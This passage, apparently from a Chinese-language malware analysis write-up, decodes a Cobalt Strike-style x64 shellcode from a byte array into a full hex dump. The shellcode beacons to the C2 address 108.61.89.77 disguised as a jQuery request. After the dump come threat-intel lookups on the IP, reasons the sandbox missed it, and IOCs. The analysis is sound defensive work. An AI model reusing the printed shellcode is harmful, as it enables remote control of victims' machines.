10, 65, 99, 99, 101, 112, 116, 45, 76, 97, 110, 103, 117, 97, 103, 101, 58, 32, 101, 110, 45, 85, 83, 44, 101, 110, 59, 113, 61, 48, 46, 53, 13, 10, 82, 101, 102, 101, 114, 101, 114, 58, 32, 104, 116, 116, 112, 58, 47, 47, 99, 111, 100, 101, 46, 106, 113, 117, 101, 114, 121, 46, 99, 111, 109, 47, 13, 10, 65, 99, 99, 101, 112, 116, 45, 69, 110, 99, 111, 100, 105, 110, 103, 58, 32, 103, 122, 105, 112, 44, 32, 100, 101, 102, 108, 97, 116, 101, 13, 10, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 32, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 51, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 55, 46, 48, 59, 32, 114, 118, 58, 49, 49, 46, 48, 41, 32, 108, 105, 107, 101, 32, 71, 101, 99, 107, 111, 13, 10, 0, 53, 4, 21, -24, -43, -77, -6, -72, -3, 118, -96, 106, 118, -42, 80, 106, 52, 2, 115, 52, 3, -57, -61, -20, -35, -60, 23, -101, -88, -52, -67, 14, -75, -80, 44, -13, 78, 101, -6, -65, 22, -80, -43, -31, 104, 120, 65, 108, 94, -107, 30, 33, 4, 25, 97, 0, 65, -66, -16, -75, -94, 86, -1, -43, 72, 49, -55, -70, 0, 0, 64, 0, 65, -72, 0, 16, 0, 0, 65, -71, 64, 0, 0, 0, 65, -70, 88, -92, 83, -27, -1, -43, 72, -109, 83, 83, 72, -119, -25, 72, -119, -15, 72, -119, -38, 65, -72, 0, 32, 0, 0, 73, -119, -7, 65, -70, 18, -106, -119, -30, -1, -43, 72, -125, -60, 32, -123, -64, 116, -74, 102, -117, 7, 72, 1, -61, -123, -64, 117, -41, 88, 88, 88, 72, 5, -81, 15, 0, 0, 80, -61, -24, -3, -1, -1, 49, 48, 56, 46, 54, 49, 46, 56, 57, 46, 55, 55, 0, 58, -34, 104, -79] # 数据省略以保持简洁

for b in bArr:
    if b < 0:
        a = 256 + b
    else:
        a = b
    print("{:02x}".format(a), end=" ")

```



```
fc 48 83 e4 f0 e8 c8 00 00 00 41 51 41 50 52 51 56 48 31 d2 65 48 8b 52 60 48 8b 52 18 48 8b 52 20 48 8b 72 50 48 0f b7 4a 4a 4d 31 c9 48 31 c0 ac 3c 61 7c 02 2c 20 41 c1 c9 0d 41 01 c1 e2 ed 52 41 51 48 8b 52 20 8b 42 3c 48 01 d0 66 81 78 18 0b 02 75 72 8b 88 00 00 00 48 85 c0 74 67 48 01 d0 50 8b 48 18 44 8b 40 20 49 01 d0 e3 56 48 ff c9 41 8b 34 88 48 01 d6 4d 31 c9 48 31 c0 ac 41 c1 c9 0d 41 01 c1 38 e0 75 f1 4c 03 4c 24 08 45 39 d1 75 d8 58 44 8b 40 24 49 01 d0 66 41 8b 0c 48 44 8b 40 1c 49 01 d0 41 8b 04 88 48 01 d0 41 58 41 58 5e 59 5a 41 58 41 59 41 5a 48 83 ec 20 41 52 ff e0 58 41 59 5a 48 8b 12 e9 4f ff ff ff 5d 6a 00 49 be 77 69 6e 69 6e 65 74 00 41 56 49 89 e6 4c 89 f1 41 ba 4c 77 26 07 ff d5 48 31 c9 48 31 d2 4d 31 c0 4d 31 c9 41 50 41 50 41 ba 3a 56 79 a7 ff d5 e9 93 00 00 00 5a 48 89 c1 41 b8 bb 01 00 00 4d 31 c9 41 51 41 51 6a 03 41 51 41 ba 57 89 9f c6 ff d5 eb 79 5b 48 89 c1 48 31 d2 49 89 d8 4d 31 c9 52 68 00 32 c0 84 52 52 41 ba eb 55 2e 3b ff d5 48 89 c6 48 83 c3 50 6a 0a 5f 48 89 f1 ba 1f 00 00 00 6a 00 68 33 00 00 49 89 e0 41 b9 04 00 00 00 41 ba 75 46 9e 86 ff d5 48 89 f1 48 89 da 49 c7 c0 ff ff ff ff 4d 31 c9 52 52 41 ba 2d 06 18 7b ff d5 85 c0 0f 85 9d 01 00 00 48 ff cf 0f 84 8c 01 00 00 eb b3 e9 e4 01 00 00 e8 82 ff ff ff 2f 6a 71 75 65 72 79 2d 33 2e 33 2e 32 2e 73 6c 69 6d 2e 6d 69 6e 2e 6a 73 00 ce df 3b 62 00 0c 19 3c 32 e4 a6 00 55 40 d7 f4 e0 2b ba a2 96 a4 6a 13 88 38 8d 53 1a e9 98 d1 57 a8 82 3f db 05 bc 82 c9 2e 38 25 ed 11 8b 89 da 2f de 46 00 41 63 63 65 70 74 3a 20 74 65 78 74 2f 68 74 6d 6c 2c 61 70 70 6c 69 63 61 74 69 6f 6e 2f 78 68 74 6d 6c 2b 78 6d 6c 2c 61 70 70 6c 69 63 61 74 69 6f 6e 2f 78 6d 6c 3b 71 3d 30 2e 39 2c 2a 2f 2a 3b 71 3d 30 2e 38 0d 0a 41 63 63 65 70 74 2d 4c 61 6e 67 75 61 67 65 3a 20 65 6e 2d 55 53 2c 65 6e 3b 71 3d 30 2e 35 0d 0a 52 65 66 65 72 65 72 3a 20 68 74 74 70 3a 2f 2f 63 6f 64 65 2e 6a 71 75 65 72 79 2e 63 6f 6d 2f 0d 0a 41 63 63 65 70 74 2d 45 6e 63 6f 64 69 6e 67 3a 20 67 7a 69 70 2c 20 64 65 66 6c 61 74 65 0d 0a 55 73 65 72 2d 41 67 65 6e 74 3a 20 4d 6f 7a 69 6c 6c 61 2f 35 2e 30 20 28 57 69 6e 64 6f 77 73 20 4e 54 20 36 2e 33 3b 20 54 72 69 64 65 6e 74 2f 37 2e 30 3b 20 72 76 3a 31 31 2e 30 29 20 6c 69 6b 65 20 47 65 63 6b 6f 0d 0a 00 35 04 15 e8 d5 b3 fa b8 fd 76 a0 6a 76 d6 50 6a 34 02 73 34 03 c7 c3 ec dd c4 17 9b a8 cc bd 0e b5 b0 2c f3 4e 65 fa bf 16 b0 d5 e1 68 78 41 6c 5e 95 1e 21 04 19 61 00 41 be f0 b5 a2 56 ff d5 48 31 c9 ba 00 00 40 00 41 b8 00 10 00 00 41 b9 40 00 00 00 41 ba 58 a4 53 e5 ff d5 48 93 53 53 48 89 e7 48 89 f1 48 89 da 41 b8 00 20 00 00 49 89 f9 41 ba 12 96 89 e2 ff d5 48 83 c4 20 85 c0 74 b6 66 8b 07 48 01 c3 85 c0 75 d7 58 58 58 48 05 af 0f 00 00 50 c3 e8 fd ff ff 31 30 38 2e 36 31 2e 38 39 2e 37 37 00 3a de 68 b1 
```
对应hash:7500477160e1e82e3434854039f707619084fac59954177b00d078eb03ceb488

可以看到回连IP： 108.61.89.77

最终判定为回连地址，前面的一段为shellcode。再针对ip进行分析。


```
[+]ip基本信息查询：

归属地：美国-新泽西-皮斯卡特维-
运营商：
Reason:成功
ip使用者:


使用者：无记录
Reason:成功
IP WHOIS:
inetnum:0.0.0.0 - 255.255.255.255
netname:IANA-BLOCK
descr:General placeholder reference for all IPv4 addresses
remarks:------------------------------------------------------
remarks:remarks:
remarks:Important:
remarks:remarks:
remarks:This registration object does not contain
remarks:specific registration details.
remarks:remarks:
remarks:This registration object is used only as a
remarks:general placeholder for all IPv4 addresses
remarks:and may include:
remarks:remarks:
remarks:- reserved address ranges
remarks:- private use ranges
remarks:- multicast ranges
remarks:- address ranges administered by RIRs (Regional
remarks:Internet Registries)
remarks:remarks:
remarks:If your query does not return an address range
remarks:more specific than 0.0.0.0 - 255.255.255.255, it
remarks:means the address is not administered by any RIR.
remarks:For more specific information on the use of this
remarks:IPv4 address space, see the Internet Assigned
remarks:Numbers Authority (IANA) website at:
remarks:remarks:
remarks:http://www.iana.org
remarks:remarks:
remarks:------------------------------------------------------
country or economy:AU
admin-c:IANA1-AP
tech-c:IANA1-AP
mnt-by:MAINT-APNIC-AP
mnt-lower:MAINT-APNIC-AP
status:ALLOCATED PORTABLE
last-modified:2008-09-04T06:51:49Z
source:APNIC
role:Internet Assigned Numbers Authority
address:see http://www.iana.org.
admin-c:IANA1-AP
tech-c:IANA1-AP
nic-hdl:IANA1-AP
remarks:For more information on IANA services
remarks:go to IANA web site at http://www.iana.org.
mnt-by:MAINT-APNIC-AP
last-modified:2018-06-22T22:34:30Z
source:APNIC

[+]ip反查域名:


[+]微步情报信息：
ASN_rank：4 (0~4，越大代表风险越高)
ASN归属：AS-CHOOPA, US
ASN号：20473
综合研判标签：C2

情报更新时间：2023-08-15 20:37:24
团伙或事件标签：无记录

端口信息：

22端口: ssh
应用名称：OpenSSH
应用版本：8.2p1
53端口: domain
443端口: https
应用名称：Apache
应用版本：2.4.41
SSL状态：Expired
使用者名称：docketmasters.ambixinc.com
使用者单位：R3
颁发时间: 2022-03-04 12:59:57
失效时间：2022-06-02 12:59:56
用途：SSL client|SSL server|Netscape SSL server|Any Purpose|Any Purpose CA|OCSP helper
指纹：09fd0e68c0255614f858fd742f92d03fcef65594[SHA256withRSA]
80端口: http
应用名称：Apache
应用版本：2.4.41

微步威胁情报：

情报来源：ThreatBook Labs
威胁类型：C2
可信度评分：85
发现时间：2023-08-15 00:00:00
更新时间：2023-08-15 20:37:24
情报是否过期：False
标签类型：security_event
团伙或安全事件标签：['HW2023'] 标签类型：attack_method
团伙或安全事件标签：['SupplyChainAttack'] 标签类型：virus_family
团伙或安全事件标签：['CobaltStrike'] 情报来源：ThreatBook Labs
威胁类型：IDC
可信度评分：90
发现时间：2018-05-04 17:55:36
更新时间：2018-08-02 21:01:59
情报是否过期：True
标签类型：security_event
团伙或安全事件标签：['HW2023'] 标签类型：attack_method
团伙或安全事件标签：['SupplyChainAttack'] 标签类型：virus_family
团伙或安全事件标签：['CobaltStrike'] 情报来源：ThreatBook Labs
威胁类型：IDC
可信度评分：90
发现时间：2016-08-11 13:36:46
更新时间：2018-05-04 20:07:20
情报是否过期：True
标签类型：security_event
团伙或安全事件标签：['HW2023'] 标签类型：attack_method
团伙或安全事件标签：['SupplyChainAttack'] 标签类型：virus_family
团伙或安全事件标签：['CobaltStrike']
相关样本情报：（最多20条显示）
234a844f2d997b804126ad2de11c081085a8045d2f9b71b877fa785d337e5209
检测时间：2023-08-15 20:24:45
检出率：4/22
恶意类型：Trojan

Reason:OK
```



这里沙箱未检测出的原因？

根据分析造成这样情况的原因主要有两个，一个是样本增加了参数，无参执行并不会触发该外联行为，这个行为导致行为沙箱无法识别。
还有个原因是java的编译的底层是smali代码，虽然表面上是char数组，但是实际上shellcode并不是连续状态，参杂了执行的混淆代码。 



## iocs
ip: 
108.61.89.77

hash:
5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64
7500477160e1e82e3434854039f707619084fac59954177b00d078eb03ceb488


## 参考
https://mp.weixin.qq.com/s/nTnhv8fcULFVh1YTX7Az2A